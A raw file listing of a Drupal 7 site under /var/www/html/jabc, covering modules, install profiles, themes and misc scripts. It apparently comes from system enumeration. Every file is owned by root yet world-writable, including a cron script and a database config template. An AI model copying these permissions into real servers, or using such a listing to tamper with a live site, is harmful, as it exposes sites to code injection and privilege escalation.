-rwxrwxrwx 1 root root 1205 Apr 16 2016 /var/www/html/jabc/modules/update/tests/ccc_update_test.1_0.xml
-rwxrwxrwx 1 root root 2419 Apr 16 2016 /var/www/html/jabc/modules/update/tests/drupal.2-sec.xml
-rwxrwxrwx 1 root root 6100 Apr 16 2016 /var/www/html/jabc/modules/update/tests/update_test.module
-rwxrwxrwx 1 root root 67 Apr 16 2016 /var/www/html/jabc/modules/update/tests/aaa_update_test.module
-rwxrwxrwx 1 root root 250 Apr 16 2016 /var/www/html/jabc/modules/update/tests/aaa_update_test.info
-rwxrwxrwx 1 root root 1139 Apr 16 2016 /var/www/html/jabc/modules/update/tests/drupal.0.xml
-rwxrwxrwx 1 root root 293 Apr 16 2016 /var/www/html/jabc/modules/update/tests/themes/update_test_subtheme/update_test_subtheme.info
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/modules/update/tests/themes/update_test_basetheme/update_test_basetheme.info
-rwxrwxrwx 1 root root 383 Apr 16 2016 /var/www/html/jabc/modules/update/tests/aaa_update_test.tar.gz
-rwxrwxrwx 1 root root 250 Apr 16 2016 /var/www/html/jabc/modules/update/tests/bbb_update_test.info
-rwxrwxrwx 1 root root 128 Apr 16 2016 /var/www/html/jabc/modules/update/tests/aaa_update_test.no-releases.xml
-rwxrwxrwx 1 root root 67 Apr 16 2016 /var/www/html/jabc/modules/update/tests/bbb_update_test.module
-rwxrwxrwx 1 root root 1205 Apr 16 2016 /var/www/html/jabc/modules/update/tests/aaa_update_test.1_0.xml
-rwxrwxrwx 1 root root 67 Apr 16 2016 /var/www/html/jabc/modules/update/tests/ccc_update_test.module
-rwxrwxrwx 1 root root 264 Apr 16 2016 /var/www/html/jabc/modules/update/tests/update_test.info
-rwxrwxrwx 1 root root 1234 Apr 16 2016 /var/www/html/jabc/modules/update/tests/update_test_subtheme.1_0.xml
-rwxrwxrwx 1 root root 1743 Apr 16 2016 /var/www/html/jabc/modules/update/tests/drupal.1.xml
-rwxrwxrwx 1 root root 1205 Apr 16 2016 /var/www/html/jabc/modules/update/tests/bbb_update_test.1_0.xml
-rwxrwxrwx 1 root root 1981 Apr 16 2016 /var/www/html/jabc/modules/update/tests/update_test_basetheme.1_1-sec.xml
-rwxrwxrwx 1 root root 1690 Apr 16 2016 /var/www/html/jabc/modules/update/tests/drupal.dev.xml
-rwxrwxrwx 1 root root 35317 Apr 16 2016 /var/www/html/jabc/modules/update/update.compare.inc
-rwxrwxrwx 1 root root 12486 Apr 16 2016 /var/www/html/jabc/modules/update/update.report.inc
-rwxrwxrwx 1 root root 38695 Apr 16 2016 /var/www/html/jabc/modules/update/update.module
-rwxrwxrwx 1 root root 2028 Apr 16 2016 /var/www/html/jabc/modules/update/update.css
-rwxrwxrwx 1 root root 34599 Apr 16 2016 /var/www/html/jabc/modules/update/update.manager.inc
-rwxrwxrwx 1 root root 517 Apr 16 2016 /var/www/html/jabc/modules/update/update-rtl.css
-rwxrwxrwx 1 root root 12111 Apr 16 2016 /var/www/html/jabc/modules/update/update.authorize.inc
-rwxrwxrwx 1 root root 4789 Apr 16 2016 /var/www/html/jabc/modules/update/update.settings.inc
-rwxrwxrwx 1 root root 378 Apr 16 2016 /var/www/html/jabc/modules/update/update.info
-rwxrwxrwx 1 root root 14995 Apr 16 2016 /var/www/html/jabc/modules/update/update.fetch.inc
-rwxrwxrwx 1 root root 6489 Apr 16 2016 /var/www/html/jabc/modules/update/update.install
-rwxrwxrwx 1 root root 5158 Apr 16 2016 /var/www/html/jabc/modules/update/update.api.php
-rwxrwxrwx 1 root root 33104 Apr 16 2016 /var/www/html/jabc/modules/update/update.test
-rwxrwxrwx 1 root root 2340 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.css
-rwxrwxrwx 1 root root 1059 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.api.php
-rwxrwxrwx 1 root root 1804 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.js
-rwxrwxrwx 1 root root 408 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual-rtl.css
-rwxrwxrwx 1 root root 5687 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.module
-rwxrwxrwx 1 root root 505 Apr 16 2016 /var/www/html/jabc/modules/contextual/images/gear-select.png
-rwxrwxrwx 1 root root 1926 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.test
-rwxrwxrwx 1 root root 312 Apr 16 2016 /var/www/html/jabc/modules/contextual/contextual.info
-rwxrwxrwx 1 root root 398 Apr 16 2016 /var/www/html/jabc/modules/forum/forum-rtl.css
-rwxrwxrwx 1 root root 48888 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.module
-rwxrwxrwx 1 root root 1038 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.pages.inc
-rwxrwxrwx 1 root root 711 Apr 16 2016 /var/www/html/jabc/modules/forum/forum-submitted.tpl.php
-rwxrwxrwx 1 root root 550 Apr 16 2016 /var/www/html/jabc/modules/forum/forums.tpl.php
-rwxrwxrwx 1 root root 3343 Apr 16 2016 /var/www/html/jabc/modules/forum/forum-list.tpl.php
-rwxrwxrwx 1 root root 691 Apr 16 2016 /var/www/html/jabc/modules/forum/forum-icon.tpl.php
-rwxrwxrwx 1 root root 25584 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.test
-rwxrwxrwx 1 root root 364 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.info
-rwxrwxrwx 1 root root 2497 Apr 16 2016 /var/www/html/jabc/modules/forum/forum-topic-list.tpl.php
-rwxrwxrwx 1 root root 13587 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.install
-rwxrwxrwx 1 root root 1056 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.css
-rwxrwxrwx 1 root root 12004 Apr 16 2016 /var/www/html/jabc/modules/forum/forum.admin.inc
-rwxrwxrwx 1 root root 611 Apr 16 2016 /var/www/html/jabc/profiles/testing/testing.install
-rwxrwxrwx 1 root root 497 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.info
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_incompatible_test/drupal_system_listing_incompatible_test.module
-rwxrwxrwx 1 root root 6 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.module
-rwxrwxrwx 1 root root 368 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.info
-rwxrwxrwx 1 root root 1091 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.test
-rwxrwxrwx 1 root root 59 Apr 16 2016 /var/www/html/jabc/profiles/testing/testing.profile
-rwxrwxrwx 1 root root 278 Apr 16 2016 /var/www/html/jabc/profiles/testing/testing.info
-rwxrwxrwx 1 root root 11834 Apr 16 2016 /var/www/html/jabc/profiles/standard/standard.install
-rwxrwxrwx 1 root root 458 Apr 16 2016 /var/www/html/jabc/profiles/standard/standard.profile
-rwxrwxrwx 1 root root 743 Apr 16 2016 /var/www/html/jabc/profiles/standard/standard.info
-rwxrwxrwx 1 root root 92 Apr 16 2016 /var/www/html/jabc/profiles/standard/translations/README.txt
-rwxrwxrwx 1 root root 2064 Apr 16 2016 /var/www/html/jabc/profiles/minimal/minimal.install
-rwxrwxrwx 1 root root 271 Apr 16 2016 /var/www/html/jabc/profiles/minimal/minimal.info
-rwxrwxrwx 1 root root 92 Apr 16 2016 /var/www/html/jabc/profiles/minimal/translations/README.txt
-rwxrwxrwx 1 root root 456 Apr 16 2016 /var/www/html/jabc/profiles/minimal/minimal.profile
-rwxrwxrwx 1 root root 1032 Apr 16 2016 /var/www/html/jabc/scripts/cron.sh
-rwxrwxrwx 1 root root 632 Apr 16 2016 /var/www/html/jabc/templates/dbconfig.template
-rwxrwxrwx 1 root root 1004 Apr 16 2016 /var/www/html/jabc/themes/stark/README.txt
-rwxrwxrwx 1 root root 440 Apr 16 2016 /var/www/html/jabc/themes/stark/stark.info
-rwxrwxrwx 1 root root 11631 Apr 16 2016 /var/www/html/jabc/themes/stark/screenshot.png
-rwxrwxrwx 1 root root 2326 Apr 16 2016 /var/www/html/jabc/themes/stark/logo.png
-rwxrwxrwx 1 root root 1204 Apr 16 2016 /var/www/html/jabc/themes/stark/layout.css
-rwxrwxrwx 1 root root 2914 Apr 16 2016 /var/www/html/jabc/themes/garland/page.tpl.php
-rwxrwxrwx 1 root root 814 Apr 16 2016 /var/www/html/jabc/themes/garland/comment.tpl.php
-rwxrwxrwx 1 root root 992 Apr 16 2016 /var/www/html/jabc/themes/garland/node.tpl.php
-rwxrwxrwx 1 root root 1320 Apr 16 2016 /var/www/html/jabc/themes/garland/fix-ie.css
-rwxrwxrwx 1 root root 409 Apr 16 2016 /var/www/html/jabc/themes/garland/garland.info
-rwxrwxrwx 1 root root 176 Apr 16 2016 /var/www/html/jabc/themes/garland/images/menu-collapsed.gif
-rwxrwxrwx 1 root root 2889 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-content-left.png
-rwxrwxrwx 1 root root 441 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-navigation-item-hover.png
-rwxrwxrwx 1 root root 188 Apr 16 2016 /var/www/html/jabc/themes/garland/images/gradient-inner.png
-rwxrwxrwx 1 root root 183 Apr 16 2016 /var/www/html/jabc/themes/garland/images/menu-expanded.gif
-rwxrwxrwx 1 root root 125 Apr 16 2016 /var/www/html/jabc/themes/garland/images/task-list.png
-rwxrwxrwx 1 root root 176 Apr 16 2016 /var/www/html/jabc/themes/garland/images/menu-collapsed-rtl.gif
-rwxrwxrwx 1 root root 2819 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-content-right.png
-rwxrwxrwx 1 root root 103 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-bar-white.png
-rwxrwxrwx 1 root root 174 Apr 16 2016 /var/www/html/jabc/themes/garland/images/menu-leaf.gif
-rwxrwxrwx 1 root root 680 Apr 16 2016 /var/www/html/jabc/themes/garland/images/body.png
-rwxrwxrwx 1 root root 104 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-navigation.png
-rwxrwxrwx 1 root root 125 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-bar.png
-rwxrwxrwx 1 root root 115 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-tab.png
-rwxrwxrwx 1 root root 485 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-content.png
-rwxrwxrwx 1 root root 499 Apr 16 2016 /var/www/html/jabc/themes/garland/images/bg-navigation-item.png
-rwxrwxrwx 1 root root 1162 Apr 16 2016 /var/www/html/jabc/themes/garland/fix-ie-rtl.css
-rwxrwxrwx 1 root root 4451 Apr 16 2016 /var/www/html/jabc/themes/garland/template.php
-rwxrwxrwx 1 root root 20786 Apr 16 2016 /var/www/html/jabc/themes/garland/style.css
-rwxrwxrwx 1 root root 2749 Apr 16 2016 /var/www/html/jabc/themes/garland/maintenance-page.tpl.php
-rwxrwxrwx 1 root root 922 Apr 16 2016 /var/www/html/jabc/themes/garland/color/preview.css
-rwxrwxrwx 1 root root 5959 Apr 16 2016 /var/www/html/jabc/themes/garland/color/color.inc
-rwxrwxrwx 1 root root 20894 Apr 16 2016 /var/www/html/jabc/themes/garland/color/base.png
-rwxrwxrwx 1 root root 9965 Apr 16 2016 /var/www/html/jabc/themes/garland/color/preview.png
-rwxrwxrwx 1 root root 10767 Apr 16 2016 /var/www/html/jabc/themes/garland/screenshot.png
-rwxrwxrwx 1 root root 4967 Apr 16 2016 /var/www/html/jabc/themes/garland/style-rtl.css
-rwxrwxrwx 1 root root 5116 Apr 16 2016 /var/www/html/jabc/themes/garland/logo.png
-rwxrwxrwx 1 root root 753 Apr 16 2016 /var/www/html/jabc/themes/garland/theme-settings.php
-rwxrwxrwx 1 root root 1047 Apr 16 2016 /var/www/html/jabc/themes/garland/print.css
-rwxrwxrwx 1 root root 444 Apr 16 2016 /var/www/html/jabc/themes/README.txt
-rwxrwxrwx 1 root root 297 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/ie6.css
-rwxrwxrwx 1 root root 1119 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/ie.css
-rwxrwxrwx 1 root root 1312 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/colors.css
-rwxrwxrwx 1 root root 32908 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/style.css
-rwxrwxrwx 1 root root 1313 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/maintenance-page.css
-rwxrwxrwx 1 root root 4863 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/style-rtl.css
-rwxrwxrwx 1 root root 849 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/ie-rtl.css
-rwxrwxrwx 1 root root 1634 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/layout.css
-rwxrwxrwx 1 root root 656 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/print.css
-rwxrwxrwx 1 root root 383 Apr 16 2016 /var/www/html/jabc/themes/bartik/css/layout-rtl.css
-rwxrwxrwx 1 root root 1069 Apr 16 2016 /var/www/html/jabc/themes/bartik/bartik.info
-rwxrwxrwx 1 root root 811 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/buttons.png
-rwxrwxrwx 1 root root 94 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/add.png
-rwxrwxrwx 1 root root 725 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/search-button.png
-rwxrwxrwx 1 root root 97 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/comment-arrow.gif
-rwxrwxrwx 1 root root 82 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/tabs-border.png
-rwxrwxrwx 1 root root 97 Apr 16 2016 /var/www/html/jabc/themes/bartik/images/comment-arrow-rtl.gif
-rwxrwxrwx 1 root root 10230 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates/page.tpl.php
-rwxrwxrwx 1 root root 4004 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates/comment.tpl.php
-rwxrwxrwx 1 root root 2002 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates/comment-wrapper.tpl.php
-rwxrwxrwx 1 root root 5404 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates/node.tpl.php
-rwxrwxrwx 1 root root 2566 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates/maintenance-page.tpl.php
-rwxrwxrwx 1 root root 5917 Apr 16 2016 /var/www/html/jabc/themes/bartik/template.php
-rwxrwxrwx 1 root root 2155 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/preview.html
-rwxrwxrwx 1 root root 4371 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/preview.css
-rwxrwxrwx 1 root root 2018 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/preview.js
-rwxrwxrwx 1 root root 3581 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/color.inc
-rwxrwxrwx 1 root root 106 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/base.png
-rwxrwxrwx 1 root root 106 Apr 16 2016 /var/www/html/jabc/themes/bartik/color/preview.png
-rwxrwxrwx 1 root root 19574 Apr 16 2016 /var/www/html/jabc/themes/bartik/screenshot.png
-rwxrwxrwx 1 root root 3479 Apr 16 2016 /var/www/html/jabc/themes/bartik/logo.png
-rwxrwxrwx 1 root root 572 Apr 16 2016 /var/www/html/jabc/themes/engines/phptemplate/phptemplate.engine
-rwxrwxrwx 1 root root 2947 Apr 16 2016 /var/www/html/jabc/themes/seven/reset.css
-rwxrwxrwx 1 root root 1129 Apr 16 2016 /var/www/html/jabc/themes/seven/page.tpl.php
-rwxrwxrwx 1 root root 2413 Apr 16 2016 /var/www/html/jabc/themes/seven/vertical-tabs.css
-rwxrwxrwx 1 root root 552 Apr 16 2016 /var/www/html/jabc/themes/seven/seven.info
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/themes/seven/ie6.css
-rwxrwxrwx 1 root root 304 Apr 16 2016 /var/www/html/jabc/themes/seven/ie.css
-rwxrwxrwx 1 root root 15234 Apr 16 2016 /var/www/html/jabc/themes/seven/jquery.ui.theme.css
-rwxrwxrwx 1 root root 91 Apr 16 2016 /var/www/html/jabc/themes/seven/images/arrow-desc.png
-rwxrwxrwx 1 root root 105 Apr 16 2016 /var/www/html/jabc/themes/seven/images/task-item.png
-rwxrwxrwx 1 root root 87 Apr 16 2016 /var/www/html/jabc/themes/seven/images/arrow-asc.png
-rwxrwxrwx 1 root root 3702 Apr 16 2016 /var/www/html/jabc/themes/seven/images/ui-icons-ffffff-256x240.png
-rwxrwxrwx 1 root root 118 Apr 16 2016 /var/www/html/jabc/themes/seven/images/arrow-next.png
-rwxrwxrwx 1 root root 786 Apr 16 2016 /var/www/html/jabc/themes/seven/images/buttons.png
-rwxrwxrwx 1 root root 160 Apr 16 2016 /var/www/html/jabc/themes/seven/images/add.png
-rwxrwxrwx 1 root root 3702 Apr 16 2016 /var/www/html/jabc/themes/seven/images/ui-icons-222222-256x240.png
-rwxrwxrwx 1 root root 76 Apr 16 2016 /var/www/html/jabc/themes/seven/images/fc-rtl.png
-rwxrwxrwx 1 root root 195 Apr 16 2016 /var/www/html/jabc/themes/seven/images/list-item.png
-rwxrwxrwx 1 root root 165 Apr 16 2016 /var/www/html/jabc/themes/seven/images/task-item-rtl.png
-rwxrwxrwx 1 root root 115 Apr 16 2016 /var/www/html/jabc/themes/seven/images/arrow-prev.png
-rwxrwxrwx 1 root root 82 Apr 16 2016 /var/www/html/jabc/themes/seven/images/fc.png
-rwxrwxrwx 1 root root 3702 Apr 16 2016 /var/www/html/jabc/themes/seven/images/ui-icons-454545-256x240.png
-rwxrwxrwx 1 root root 3702 Apr 16 2016 /var/www/html/jabc/themes/seven/images/ui-icons-800000-256x240.png
-rwxrwxrwx 1 root root 261 Apr 16 2016 /var/www/html/jabc/themes/seven/images/task-check.png
-rwxrwxrwx 1 root root 208 Apr 16 2016 /var/www/html/jabc/themes/seven/images/list-item-rtl.png
-rwxrwxrwx 1 root root 3702 Apr 16 2016 /var/www/html/jabc/themes/seven/images/ui-icons-888888-256x240.png
-rwxrwxrwx 1 root root 506 Apr 16 2016 /var/www/html/jabc/themes/seven/vertical-tabs-rtl.css
-rwxrwxrwx 1 root root 368 Apr 16 2016 /var/www/html/jabc/themes/seven/ie7.css
-rwxrwxrwx 1 root root 4706 Apr 16 2016 /var/www/html/jabc/themes/seven/template.php
-rwxrwxrwx 1 root root 18585 Apr 16 2016 /var/www/html/jabc/themes/seven/style.css
-rwxrwxrwx 1 root root 1310 Apr 16 2016 /var/www/html/jabc/themes/seven/maintenance-page.tpl.php
-rwxrwxrwx 1 root root 12223 Apr 16 2016 /var/www/html/jabc/themes/seven/screenshot.png
-rwxrwxrwx 1 root root 3762 Apr 16 2016 /var/www/html/jabc/themes/seven/style-rtl.css
-rwxrwxrwx 1 root root 3904 Apr 16 2016 /var/www/html/jabc/themes/seven/logo.png
-rwxrwxrwx 1 root root 529 Apr 16 2016 /var/www/html/jabc/index.php
-rwxrwxrwx 1 root root 703 Apr 16 2016 /var/www/html/jabc/install.php
-rwxrwxrwx 1 root root 8169 Apr 16 2016 /var/www/html/jabc/misc/autocomplete.js
-rwxrwxrwx 1 root root 698 Apr 16 2016 /var/www/html/jabc/misc/powered-gray-80x15.png
-rwxrwxrwx 1 root root 78602 Apr 16 2016 /var/www/html/jabc/misc/jquery.js
-rwxrwxrwx 1 root root 943 Apr 16 2016 /var/www/html/jabc/misc/powered-blue-80x15.png
-rwxrwxrwx 1 root root 118 Apr 16 2016 /var/www/html/jabc/misc/arrow-desc.png
-rwxrwxrwx 1 root root 2057 Apr 16 2016 /var/www/html/jabc/misc/vertical-tabs.css
-rwxrwxrwx 1 root root 1129 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.fold.min.js
-rwxrwxrwx 1 root root 3274 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.widget.min.js
-rwxrwxrwx 1 root root 871 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.blind.min.js
-rwxrwxrwx 1 root root 1363 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.dialog.css
-rwxrwxrwx 1 root root 951 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.pulsate.min.js
-rwxrwxrwx 1 root root 1107 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.autocomplete.css
-rwxrwxrwx 1 root root 1071 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.drop.min.js
-rwxrwxrwx 1 root root 1459 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.core.css
-rwxrwxrwx 1 root root 577 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.fade.min.js
-rwxrwxrwx 1 root root 11521 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.dialog.min.js
-rwxrwxrwx 1 root root 816 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.transfer.min.js
-rwxrwxrwx 1 root root 5770 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.droppable.min.js
-rwxrwxrwx 1 root root 23690 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.sortable.min.js
-rwxrwxrwx 1 root root 4325 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.core.min.js
-rwxrwxrwx 1 root root 19143 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.theme.css
-rwxrwxrwx 1 root root 17366 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.resizable.min.js
-rwxrwxrwx 1 root root 8753 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.autocomplete.min.js
-rwxrwxrwx 1 root root 3613 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.position.min.js
-rwxrwxrwx 1 root root 110 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_glass_75_e6e6e6_1x400.png
-rwxrwxrwx 1 root root 111 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_glass_75_dadada_1x400.png
-rwxrwxrwx 1 root root 3714 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-icons_222222_256x240.png
-rwxrwxrwx 1 root root 86 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_highlight-soft_75_cccccc_1x100.png
-rwxrwxrwx 1 root root 3714 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-icons_cd0a0a_256x240.png
-rwxrwxrwx 1 root root 115 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_glass_55_fbf9ee_1x400.png
-rwxrwxrwx 1 root root 3714 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-icons_2e83ff_256x240.png
-rwxrwxrwx 1 root root 3714 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-icons_454545_256x240.png
-rwxrwxrwx 1 root root 119 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_glass_95_fef1ec_1x400.png
-rwxrwxrwx 1 root root 86 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_flat_75_ffffff_40x100.png
-rwxrwxrwx 1 root root 97 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_glass_65_ffffff_1x400.png
-rwxrwxrwx 1 root root 3714 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-icons_888888_256x240.png
-rwxrwxrwx 1 root root 86 Apr 16 2016 /var/www/html/jabc/misc/ui/images/ui-bg_flat_0_aaaaaa_40x100.png
-rwxrwxrwx 1 root root 10829 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.core.min.js
-rwxrwxrwx 1 root root 4305 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.selectable.min.js
-rwxrwxrwx 1 root root 1644 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.explode.min.js
-rwxrwxrwx 1 root root 6664 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.button.min.js
-rwxrwxrwx 1 root root 1172 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.resizable.css
-rwxrwxrwx 1 root root 1383 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.tabs.css
-rwxrwxrwx 1 root root 4047 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.datepicker.css
-rwxrwxrwx 1 root root 10322 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.slider.min.js
-rwxrwxrwx 1 root root 1133 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.shake.min.js
-rwxrwxrwx 1 root root 914 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.highlight.min.js
-rwxrwxrwx 1 root root 1066 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.accordion.css
-rwxrwxrwx 1 root root 18552 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.draggable.min.js
-rwxrwxrwx 1 root root 2471 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.button.css
-rwxrwxrwx 1 root root 3924 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.scale.min.js
-rwxrwxrwx 1 root root 35627 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.datepicker.min.js
-rwxrwxrwx 1 root root 1672 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.bounce.min.js
-rwxrwxrwx 1 root root 1141 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.slider.css
-rwxrwxrwx 1 root root 323 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.selectable.css
-rwxrwxrwx 1 root root 1062 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.clip.min.js
-rwxrwxrwx 1 root root 2733 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.mouse.min.js
-rwxrwxrwx 1 root root 1821 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.progressbar.min.js
-rwxrwxrwx 1 root root 8998 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.accordion.min.js
-rwxrwxrwx 1 root root 358 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.progressbar.css
-rwxrwxrwx 1 root root 1062 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.effects.slide.min.js
-rwxrwxrwx 1 root root 11628 Apr 16 2016 /var/www/html/jabc/misc/ui/jquery.ui.tabs.min.js
-rwxrwxrwx 1 root root 745 Apr 16 2016 /var/www/html/jabc/misc/message-24-warning.png
-rwxrwxrwx 1 root root 441 Apr 16 2016 /var/www/html/jabc/misc/message-16-warning.png
-rwxrwxrwx 1 root root 5114 Apr 16 2016 /var/www/html/jabc/misc/machine-name.js
-rwxrwxrwx 1 root root 6134 Apr 16 2016 /var/www/html/jabc/misc/vertical-tabs.js
-rwxrwxrwx 1 root root 2974 Apr 16 2016 /var/www/html/jabc/misc/jquery.once.js
-rwxrwxrwx 1 root root 656 Apr 16 2016 /var/www/html/jabc/misc/feed.png
-rwxrwxrwx 1 root root 2558 Apr 16 2016 /var/www/html/jabc/misc/timezone.js
-rwxrwxrwx 1 root root 2699 Apr 16 2016 /var/www/html/jabc/misc/powered-black-135x42.png
-rwxrwxrwx 1 root root 2005 Apr 16 2016 /var/www/html/jabc/misc/powered-black-88x31.png
-rwxrwxrwx 1 root root 3112 Apr 16 2016 /var/www/html/jabc/misc/progress.js
-rwxrwxrwx 1 root root 114 Apr 16 2016 /var/www/html/jabc/misc/arrow-asc.png
-rwxrwxrwx 1 root root 939 Apr 16 2016 /var/www/html/jabc/misc/batch.js
-rwxrwxrwx 1 root root 14544 Apr 16 2016 /var/www/html/jabc/misc/drupal.js
-rwxrwxrwx 1 root root 2009 Apr 16 2016 /var/www/html/jabc/misc/powered-blue-88x31.png
-rwxrwxrwx 1 root root 105 Apr 16 2016 /var/www/html/jabc/misc/grippie.png
-rwxrwxrwx 1 root root 4119 Apr 16 2016 /var/www/html/jabc/misc/jquery.ba-bbq.js
-rwxrwxrwx 1 root root 968 Apr 16 2016 /var/www/html/jabc/misc/authorize.js
-rwxrwxrwx 1 root root 3904 Apr 16 2016 /var/www/html/jabc/misc/druplicon.png
-rwxrwxrwx 1 root root 920 Apr 16 2016 /var/www/html/jabc/misc/textarea.js
-rwxrwxrwx 1 root root 733 Apr 16 2016 /var/www/html/jabc/misc/message-16-info.png
-rwxrwxrwx 1 root root 105 Apr 16 2016 /var/www/html/jabc/misc/menu-collapsed.png
-rwxrwxrwx 1 root root 2594 Apr 16 2016 /var/www/html/jabc/misc/powered-gray-135x42.png
-rwxrwxrwx 1 root root 2001 Apr 16 2016 /var/www/html/jabc/misc/farbtastic/mask.png
-rwxrwxrwx 1 root root 436 Apr 16 2016 /var/www/html/jabc/misc/farbtastic/marker.png
-rwxrwxrwx 1 root root 11589 Apr 16 2016 /var/www/html/jabc/misc/farbtastic/wheel.png
-rwxrwxrwx 1 root root 576 Apr 16 2016 /var/www/html/jabc/misc/farbtastic/farbtastic.css
-rwxrwxrwx 1 root root 4068 Apr 16 2016 /var/www/html/jabc/misc/farbtastic/farbtastic.js
-rwxrwxrwx 1 root root 961 Apr 16 2016 /var/www/html/jabc/misc/jquery.cookie.js
-rwxrwxrwx 1 root root 1088 Apr 16 2016 /var/www/html/jabc/misc/message-24-help.png
-rwxrwxrwx 1 root root 2879 Apr 16 2016 /var/www/html/jabc/misc/powered-blue-135x42.png
